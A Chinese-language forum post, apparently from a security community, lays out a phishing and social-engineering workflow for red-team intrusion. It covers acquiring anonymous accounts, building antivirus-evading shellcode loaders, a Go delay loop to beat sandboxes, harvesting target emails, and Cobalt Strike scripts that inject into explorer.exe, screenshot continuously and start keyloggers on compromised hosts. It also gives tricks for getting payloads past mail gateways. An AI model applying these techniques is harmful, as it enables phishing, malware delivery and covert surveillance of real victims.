 

# 社工钓鱼基本流程 - 先知社区

社工钓鱼基本流程



## 前言

穷则社工钓鱼，达则 0day 炸场 - 微步在线，借用微步公众号的一句话，没有后端资源支持的情况下，社工钓鱼必学技能，毕竟正面打不动，代码审不动，0day 又没有是日常，下文讲解自己对于社工钓鱼的思路。

## 社交账号

准备一些社交账号，如微信、QQ、脉脉、BOSS 直聘、猎聘，手机号可以购买阿里小号/和多号。其中微信可以用辅助注册或者阿里小号/和多号注册，如果你有匿名的渠道购买更好。  
[![](assets/1701606989-0667100d9daf51fc3d506a1668642d83.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922220656-4a0b5402-5951-1.png)  
[![](assets/1701606989-36e1789ed8dc4b7c630fb755452a6415.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922220746-6793a75e-5951-1.png)

邮箱方面，一般常用 QQ 邮箱、163 邮箱，这些目前还是有渠道可以购买的，没钱或者担心购买不可靠，跟身边亲朋好友借也行。  
[![](assets/1701606989-83af0284c0ecb541cb33a92acfc587df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922221336-38ac2708-5952-1.png)

## 免杀马

免杀的马子是必备的，如果你是和我一样的免杀弟弟，我推荐先学习 shellcode loader 的一些编写思路  
[ShellcodeLoader](https://github.com/xf555er/ShellcodeLoader)  
[![](assets/1701606989-bbb05a5f8c450b8a04134ab09bbe4294.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922221908-fe227f14-5952-1.png)  
基本加载器思路为 shellcode 申请内存 (可读可写) -> 载入内存 -> 执行内存

*   申请内存：VirtualAlloc
*   载入内存：memcpy
*   执行内存：CreateThread WaitForSingleObject  
    针对这三个过程可以使用不同的函数来达到规避杀软的效果，例如申请内存还可以用 GlobalAlloc、CoTaskMemAlloc 函数，执行内存可以用回调函数 EnumFontsW、EnumUILanguages、EnumFontFamiliesA。  
    [![](assets/1701606989-1c29c2fa8657c0007553a1640aa69485.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20230922222934-73c8c0d8-5954-1.gif)

主要还是查文档自己多动手，学完就算不会写免杀马，改改别人 GitHub 的马子，过国内 360 火绒基本没问题，然后就是研究下捆绑 exe 释放正常文件，搞不懂直接给马子弹个框文件已损坏，无法打开也行，不然经常出现对方问你这文件怎么打不开...  
[![](assets/1701606989-86b69fe67ed300b319c9c6babdbc7520.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923083914-9ef6c0c0-59a9-1.png)

平时钓鱼的马子经常要改图标加签名之类的，推荐如下项目，在原项目[360QVM\_bypass](https://github.com/Pizz33/360QVM_bypass)的基础上，进行修改增加签名功能。[360QVM\_bypass-public](https://github.com/S9MF/my_script_tools/blob/main/360QVM_bypass-public/README.md)  
[![](assets/1701606989-9fab0ef0ccc550beda0c2171d78cc9a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922223436-27686bb6-5955-1.png)

## bypass 沙箱

为了延长马子存活时间，基本的沙箱对抗少不了，毕竟有防守人员的话，你投递的木马基本都得沙箱走一走，以微步沙箱为例，最简单的循环打印。

使用 sleep 函数延迟执行容易被 hook，修改为 0，可以编写循环打印来延迟程序时间，来绕过沙箱检测，因为沙箱运行程序是有时间限制的。

```bash
//循环打印进行延时 运行 1m2s 后执行 shellcode 沙箱分析时间没那么久 可以绕过沙箱检测
func add() {
    start := time.Now() //获取当前时间
    //1000000  1m2.793228s
    sum, i := 0, 1
    for i < 1000000 {
        fmt.Println(i)
        sum += i
        i++
    }
    elapsed := time.Since(start)
    fmt.Println("该函数执行完成耗时：", elapsed)
}
```

将如上代码放在 shellcode 执行前就行。  
[![](assets/1701606989-30c567d3a6cd15f66850b9ae59b807ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923090122-b6a451e4-59ac-1.png)

## 信息收集

思维导图如下，每个人都有自己的思路，我就简单讲解几个。  
[![](assets/1701606989-1b763355e02371aa2612ee425f179b5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922223658-7bfbe9f0-5955-1.png)  
零零信安直接搜索公司名称，得到一些邮箱地址  
[![](assets/1701606989-7a27619af719003396eab64ab915e7f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922224813-0eb75b20-5957-1.png)

拿邮箱后缀 + 关键字去微信搜一搜，Google、百度等搜索引擎也可以搜，可以获取业务招聘相关邮箱信息、手机号等。  
如下组合：  
@xxx.com 招聘 @xxx.com 校招 @xxx.com 投标 @xxx.com 联系方式  
[![](assets/1701606989-d35f45893e1ce06e0b2761b21afae66f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230922225408-e1d1b2f8-5957-1.png)

## C2 搭建准备

常用的就 cs，基本的套层 CDN 然后 c2 上线端口反代下，这里我会用到 cs 插件脚本  
[PushPlus2](https://github.com/S9MF/my_script_tools/blob/main/CS%E6%8F%92%E4%BB%B6/README.md)  
[![](assets/1701606989-ca5f9ca4417a8f4f45dd53bc03bb815f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923082747-05ae0528-59a8-1.png)  
常用的就是上线提醒、自动迁移进程

```bash
#自动迁移进程
    sub callback{
        $regex = '(.*\n)+explorer.exe\t\d+\t(\d+)(.*\n)+';
        # 要迁移的进程
        $listener = "ecloud";
        # 监听器名字，此处为ecloud，记得修改为自己的
        if ($2 ismatch $regex){
            $pid = matched()[1];
            $inject_pid = $pid;
            if (-is64 $1){
                $arch = "x64";
            }
            else{
                $arch = "x86";
            }
            binject($1, $pid, $listener, $arch);
        }
    }
    if($inject_pid != beacon_info($1,"pid")){
        bps($1, &callback);
    }
```

还有上线自动截图功能，就算目标掉了起码还有张图证明上线过

```bash
#只截一张图
    #binput($1, "screenshot");
    #bscreenshot($1);

    #连续截图
    binput($1, "screenwatch");
    bscreenwatch($1);
```

其他的上线自动执行 shell 命令、键盘记录看自己需求吧

```bash
#执行自定义 cmd 命令
    bshell($1, "ipconfig /all");
    #键盘记录
    bkeylogger($1);
```

还有其他需求可以去翻翻文档[Aggressor Script](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/agressor_script.htm)

如果你有好用稳定的权限提升维持工具、如 Bypass UAC、以及计划任务、服务，可以考虑下写个 cs 脚本上线自动 bypass uac，加权限维持。

## 邮件网关/沙箱

默认对面有邮件网关/沙箱设备，针对邮件正文和附件要有一定处理或者技巧。

*   针对正文  
    不带知名公司名称如脉脉、BOSS 直聘不然容易被当成广告邮件，不把附件解密密码放在正文，容易被沙箱识别密码分析附件。
*   针对附件  
    文件名加密，解压密码写在附件名上。

## 开钓

通过之前的准备，我们已经有了一些可供尝试的信息，此时需要构建话术剧本然后去钓鱼。  
[![](assets/1701606989-b4a47a6f99db2a350512de5ff6dca110.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151306-a473b102-59e0-1.png)  
[![](assets/1701606989-7333c44d93676c58cf6f0d8a4f3fd97c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151227-8d9e1a26-59e0-1.png)

## 上线后的操作

参考 L33h0m 师傅的文章[分享我的 CS 钓鱼流程导图（权限维持 + 信息收集 + 后渗透阶段）](https://www.t00ls.com/articles-69037.html)  
[![](assets/1701606989-929edb01d470e4c7cd2ca29c1a0209df.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20230923151510-eed5bdd0-59e0-1.gif)

## 总结

本文讲解了我对社工钓鱼的基本流程，偏向于思路，师傅们有其他思路欢迎在评论区留言，学习交流。

## 参考

[360QVM\_bypass](https://github.com/Pizz33/360QVM_bypass)  
[ShellcodeLoader](https://github.com/xf555er/ShellcodeLoader)  
[分享我的 CS 钓鱼流程导图（权限维持 + 信息收集 + 后渗透阶段）](https://www.t00ls.com/articles-69037.html)
